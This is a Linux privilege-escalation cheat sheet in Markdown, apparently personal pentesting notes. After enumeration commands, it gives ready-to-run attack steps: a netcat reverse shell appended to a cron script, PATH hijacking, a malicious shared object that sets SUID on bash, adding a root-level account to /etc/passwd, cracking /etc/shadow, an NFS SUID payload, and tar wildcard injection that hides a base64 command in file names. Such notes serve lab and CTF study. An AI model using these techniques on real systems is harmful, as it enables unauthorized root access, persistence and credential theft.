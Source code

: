 # 🐧 Linux Privesc

## Enumeration

```shell
# user
id
whoami

# system
hostname

# net
ifconfig
ip a
ip route
route
routel
sudo tcpdump -i lo -A | grep "pass"

# connections
ss -ntplu
netstat -ntplu

# users
cat /etc/passwd

# OS info
cat /etc/issue
cat /etc/*release
uname -a

# processes
ps aux
# wide
ps auxww
# tree
ps axjf

# installed apps on system (debian-based)
dpkg -l

# find writable paths
find / -writable -type d 2>/dev/null

# list drives mounted at boot time 
cat /etc/fstab
mount
lsblk # show available disks

# list loaded kernel modules and get specific info to find an exploit
lsmod
/sbin/modinfo <module>
```

!!! tip
    🍪 Try to switch users using username as pass

## User trails

```shell
# env vars
env
# .bashrc config
cat .bashrc
watch -n 1 "ps -aux | grep pass"
```

## Interesting Files

```shell
# check history
history
cat ~/.*history | less

# config files
find /home/<user> -type f \( -name "*.txt" -o -name "*.conf" -o -name "*.ini" \) 2>/dev/null

# .ssh folder
find /home/<user> -type d -name ".ssh" 2>/dev/null

# kdbx files
find / -name "*.kdbx" 2>/dev/null
```

## Cron jobs

!!! tip
    🍪 Examine periodic processes with [pspy](https://github.com/DominicBreuker/pspy)

```shell
ls -lah /etc/cron*
# current user's jobs
crontab -l
# root user's jobs
sudo crontab -l

# inspect cron logs
grep "CRON" /var/log/syslog

# reverse shell to cron file
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> > /tmp/f" >> scripts/user_backups.sh 
```

## SUID/SGID/Sudo/Caps

!!! tip
    🍪 Check [GTFOBins](https://gtfobins.github.io/) for escaping the programs

```shell
# find programs and groups with bit
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null

# list capabilities
/usr/sbin/getcap -r / 2>/dev/null

# check sudo privs
sudo -l
```

### Path Hijacking

A SUID executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

Run **strings** on the file to look for strings of printable characters:

```shell
strings <suidexecutable>
```

One line (`apache2`) suggests that the service executable is being called to start the webserver, however the full path of the executable (`/usr/sbin/service`) is not being used.

Create a malicious file in a writable path and call it like the file the SUID executable calls.

```shell
echo '/bin/bash -p' > /tmp/apache2
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid executable to gain a root shell:

```shell
export PATH=/tmp:$PATH
```

```shell
apache2
```

### Shared Object Injection

A SUID executable can be vulnerable to shared object injection.

First, execute the file and notice the missing object error.

If there is no feedback, run **strace** on the file and search the output for open/access calls and for "no such file" errors:

```shell
strace suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the `.config/libcalc.so` shared object within the home directory, but it cannot be found.
Create the **.config** directory for the `libcalc.so` file: `mkdir .config`

After knowing the path, compile a malicious code into a shared object at the location the **suid-so** executable is looking for:

```c
#include <stdlib.h>

__attribute__((constructor)) void make_setuid() {
    system("chmod +s /bin/bash");
}
```

```shell
gcc -shared -fPIC libcalc.c -o libcalc.so 
```

Execute `/bin/bash -p` to gain a root shell.

```shell
/bin/bash -p
```

## Weak file permissions

!!! info
    🐈‍⬛ Hashcat mode -> 1800

```shell
# check if /etc/shadow can be readed and combine it with /etc/passwd to crack it
unshadow passwd shadow > passwords.txt
john --wordlist=<wordlist> passwords.txt

# check if /etc/shadow can be writable and put a new root hash
mkpasswd -m sha-512 newpassword

# check if /etc/passwd can be writable and put a new root hash
openssl passwd newpass
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Kernel exploits

```shell
cat /etc/issue
uname -r
arch

# find a public exploit
searchsploit <name>
```

## Automated Scripts

> [linPEAS.sh](https://github.com/peass-ng/PEASS-ng?tab=readme-ov-file)

> [Liinux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)

## NFS

```shell
# mountable shares
cat /etc/exports
showmount -e <ip>

# mount a share
mkdir /tmp/share
mount -o rw <ip>:<share> /tmp/share

# using Kali's root user, generate a payload and save it to the mounted share
# using Kali's root user, make the file executable and set the SUID permission:
chmod +xs share/shell.elf

# on the victim, as the low privileged user, execute the file to gain a root shell:
/<share_path>/shell.elf
```

## Tar Wildcard

A script that uses tar with a wildcard ( * ) is vulnerable to arbitrary command execution via maliciously crafted checkpoint files in the target directory.

```shell
echo -n 'chmod +s /bin/bash' | base64
> Y2htb2QgK3MgL2Jpbi9iYXNo

touch -- "--checkpoint=1"
touch -- '--checkpoint-action=exec="echo Y2htb2QgK3MgL2Jpbi9iYXNo | base64 -d | bash"'
```
